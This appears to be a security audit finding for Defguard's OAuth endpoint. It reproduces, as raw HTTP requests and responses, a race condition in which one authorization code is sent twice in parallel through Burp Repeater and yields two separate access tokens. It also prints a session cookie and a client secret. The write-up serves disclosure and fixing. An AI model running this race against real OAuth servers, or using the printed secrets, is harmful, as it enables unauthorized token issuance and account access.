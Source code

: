 ```yaml
---
title: "DG25-24: RFC 6749 violation - code can be used more than once due to race condition"
cvss_score:
severity: Info
cvss_string: "/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1550
---
```


### Technical details

1.  Generate code:

**Request:**\
\
**GET**
/api/v1/oauth/authorize?scope=profile&response_type=code&client_id=9szvHNlxY6R3jvbX&redirect_uri=https%3A%2F%2Fisec.pl&state=1&nonce=1&allow=true
HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=q4HT5ItlifpmV4rDDUcXZVWU\
\
\
**Response:**\
\
**HTTP/2** 302 Found\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Date:** Tue, 12 Aug 2025 10:33:29 GMT\
**Location:** `https://isec.pl/?code=tPwLxI4iYqGUFSxclZUwOZ0d&state=1`\
**Server:** Caddy\
**Content-Length:** 0

1.  Send below requests into Burp\'s Repeater twice. Group Repeater\'s
    tabs into single group and Send group in parallel (single-packet
    attack).

**Request:**\
\
**POST** /api/v1/oauth/token HTTP/2\
**Host:** defguard.dvpnsec.net\
**Content-Length:** 165\
**Content-Type:** application/x-www-form-urlencoded\
\
`grant_type=authorization_code&redirect_uri=https://isec.pl&code=tPwLxI4iYqGUFSxclZUwOZ0d&client_id=9szvHNlxY6R3jvbX&client_secret=SHyMugRCmiTkLdo1xtV5IwgrY1dKoHpN&`\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Tue, 12 Aug 2025 10:33:36 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 124\


```json
{
"access_token ": "c4SyMSrsSPYjT7OqylFsHMDZ ",
"id_token ":null, 
"refresh_token ": "Io0N0HKAOS98lepMvHqt3duh ", 
"token_type ": "bearer "
}
```

**Request:**\
\
**POST** /api/v1/oauth/token HTTP/2\
**Host:** defguard.dvpnsec.net\
**Content-Length:** 165\
**Content-Type:** application/x-www-form-urlencoded\
\
`grant_type=authorization_code&redirect_uri=https://isec.pl&code=tPwLxI4iYqGUFSxclZUwOZ0d&client_id=9szvHNlxY6R3jvbX&client_secret=SHyMugRCmiTkLdo1xtV5IwgrY1dKoHpN&`\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Tue, 12 Aug 2025 10:33:36 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 124\

```json
{ 
"access_token ": "YUd8GGDbXJQZr9V4ebYxqx8Q ", 
"id_token ":null,
"refresh_token ": "04h4wum40uw0Uc1zELYRSby6 ",
"token_type ": "bearer"
}
```
The same code generated two different access tokens.
